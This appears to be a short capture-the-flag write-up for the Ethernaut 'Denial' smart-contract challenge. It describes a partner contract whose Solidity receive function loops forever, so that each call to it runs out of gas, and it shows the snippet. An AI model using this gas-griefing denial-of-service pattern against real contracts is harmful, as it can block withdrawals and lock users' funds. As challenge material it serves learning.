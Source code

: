 # 20-Denial

1. To deny `Denial` contract, we can create a `DenialAttack` contract as a partner, where in `receive` fallback, we define infinite loop causing the call always out of gas.

```solidity
    receive() external payable {
        uint here = 0;
        while (true) {
            // forever in here
            here++;
        }
    }
```
